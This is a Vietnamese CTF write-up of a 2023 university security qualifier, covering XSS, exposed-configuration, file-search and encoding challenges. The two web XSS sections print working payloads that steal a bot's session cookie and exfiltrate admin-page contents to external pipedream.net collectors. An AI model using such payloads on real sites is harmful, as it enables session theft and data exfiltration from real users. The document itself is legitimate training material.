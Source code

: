 # SVATTT 2023

Đây là tổng hợp Writeup CTF Tuyển chọn SVATT PTIT 2023

## Overview

| Title | Category | Flag |
| :---- | :------- | :--- |
| [Web01](#web01) | Web | ATTT{3z X2S From V@tv069 With LOv3} |
| [Web02](#web02) | Web | ATTT{4_51mpl3_r3v_5ql} |
| [Web01-again](#web01-again) | Web | ATTT{4c3076335f56407476303639} |
| [For01](#for01) | Programming | ATTT{https://www.youtube.com/watch?v=4qNALNWoGmI} |
| [Crypto01](#crypto01) | Crypto | ATTT{Meow_meow meow meow_tra_lai_tam_tri_toi_day} |


### Web01

![image](./writeupfiles/web1.png)

Chúng ta được cho 2 link, 1 là link challenge, 2 là link của con bot. Kinh nghiệm cho mình thấy đây là 1 bài Reflected XSS để lấy cookie

Sau khi đăng ký và đăng nhập, đây là UI của web challenge gồm 1 form để nhập note

Test thử với payload đơn giản `<img src=x onerror=alert(1)`, nhận thấy trang web bị lỗi XSS.

![image](./writeupfiles/web1-alert.png)

Ý tưởng bây giờ là khai thác Reflected XSS để lấy cookie của bot. Payload để lấy cookie của bot:

```
<img src=x onerror="this.src='https://eo4kqgjvne2o998.m.pipedream.net/?'+document.cookie; this.removeAttribute('onerror');">
```

Sau khi gửi đường link cho bot, mã Javascript được thực thi, ẽ gửi GET HTTP request đến URL requestbin kèm với cookie của bot

![image](./writeupfiles/web1-cookie.png)

Thay cookie của người dùng bằng Cookie của bot, truy cập admin panel ta sẽ lấy được flag

![image](./writeupfiles/web1-change.png)

Flag:

![image](./writeupfiles/web1-flag.png)

### Web02

![image](./writeupfiles/web2.png)

UI của challenge là 1 form search

![image](./writeupfiles/web2-ui.png)

Form search làm mình nghĩ ngay đến SQLi. Nhưng sau khi test thử với Burp Suite và sqlmap thì mình không detect được SQLi xD

dirsearch URL của challenge, tìm được 1 endpoint thú dzị là `/docker-compose.yml`

![image](./writeupfiles/web2-list-dir.png)

Truy cập `/docker-compose.yml` lấy được password vào mysql db 

![image](./writeupfiles/web2-docker.png)

Chui vào db mình lấy được flag

![image](./writeupfiles/web2-flag.png)

### Web01-again

![image](./writeupfiles/again.png)

Vẫn là cái UI của bài web01 trước

vẫn là con BOT cũ

![image](./writeupfiles/again-bot.png)

Nhưng cái khác ở đây là không thể dùng Reflected XSS để lấy cookie của bot do có flag http-only

![image](./writeupfiles/again-cookie.png)

Ý tưởng của mình là thay vì lấy cookie của con bot để vào được admin panel, giờ mình sẽ điều khiển con bot lấy luôn flag về cho mình

```
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://167.172.80.186:9999/admin.php"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); 
      const sess=this.responseText.substring(this.responseText.indexOf("ATTT"));
      req2.open("GET","https://eoisvenotwsj688.m.pipedream.net/?data="+btoa(sess),false);
      req2.send() 
   };
</script>
```

đầu tiên bot sẽ truy cập vào trang admin

Sau đó nó sẽ lọc response để lấy ra flag theo format ATTT{.......}

bước cuối nó gửi flag để server của mình, mã hóa base64 để tránh việc request URL quá dài

![image](./writeupfiles/again-solve.png)

giải ra chúng ta có flag

![image](./writeupfiles/again-flag.png)

### For01

![image](./writeupfiles/for1.png)

Ok, challenge này cho chúng ta 1 file rar, sau khi giải nén cấu trúc thư mục sẽ như thế này

![image](./writeupfiles/for1-list.png)

Tóm gọn lại là có 100 thư mục được đánh dấu từ 0-100, trong mỗi thư mục lại có 100 thư mục được đặt tên từ 0-100. 

Trong mỗi thư mục con lại có 100 file .txt 0.txt đến 100.txt.

Nhiệm vụ của chúng ta là tìm ra flag trong đống file .txt đấy. Mình dùng python để tự động hóa quá trình tìm flag. Đây là source code:

```
import os

for i in range(0,101):
    for j in range(0,101):
        for filename in os.listdir('./{}/{}/'.format(i,j)):
            f = open('./{}/{}/'.format(i,j)+filename,'r')
            r = f.read()
            if r != "almost" and r != "no" and r!="nah" and r!="you_got_it" and r!="try_again" and r!="Not_this_time" and r!="so_close" and r!="nope" and r!="better_luck_next_time":
                print(r)
```

Mình sử dụng 2 vòng lặp và đọc tất cả các file .txt trong thư mục con, kết quả tìm ra flag

![image](./writeupfiles/for1-flag.png)

### Crypto01

![image](./writeupfiles/crypt1.png)

Source code enc.cpp:

```
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("res.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

Thuật toán: Lấy 4 kí tự liền nhau, kí tự đầu tiên sẽ chuyển về dạng octal, kí tự thứ 2 là dạng decimal, kí tự thứ 3 là dạng hex và kí tự thứ 4 tiếp tục là decimal, và lặp lại như vậy đến khi hết chuỗi.

Mình hiểu thuật toán nhưng quên mất cách code c++, code python thì lú nên tức quá quay ra làm bằng tay. Bật 4 tab cyberchef và quẩy tầm 2,3p mình được flag ám ảnh nhất mình từng tìm được

![image](./writeupfiles/crypt1-flag.png)
